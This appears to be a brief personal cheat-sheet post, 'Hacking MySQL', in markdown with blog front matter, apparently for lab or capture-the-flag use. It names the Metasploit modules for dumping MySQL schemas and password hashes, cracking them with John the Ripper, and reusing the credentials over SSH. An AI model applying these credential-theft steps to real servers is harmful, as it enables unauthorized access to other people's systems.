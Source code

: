 ```yaml
---
title: Hacking MySQL
date: 2022-06-09 19:36:00 +/-0000
categories: [hacking]
tags: [mysql]     # TAG names should always be lowercase
---
```


# Hacking MySQL

### Port Number
3306

### To find tables

'''console
auxiliary/scanner/mysql/mysql_schemadump
'''

### To dump hashes

'''console
auxiliary/scanner/mysql/mysql_hashdump
'''

Copy the username and password to text file then run

'''console
John *filename*
'''

Then try logging in SSH using username and password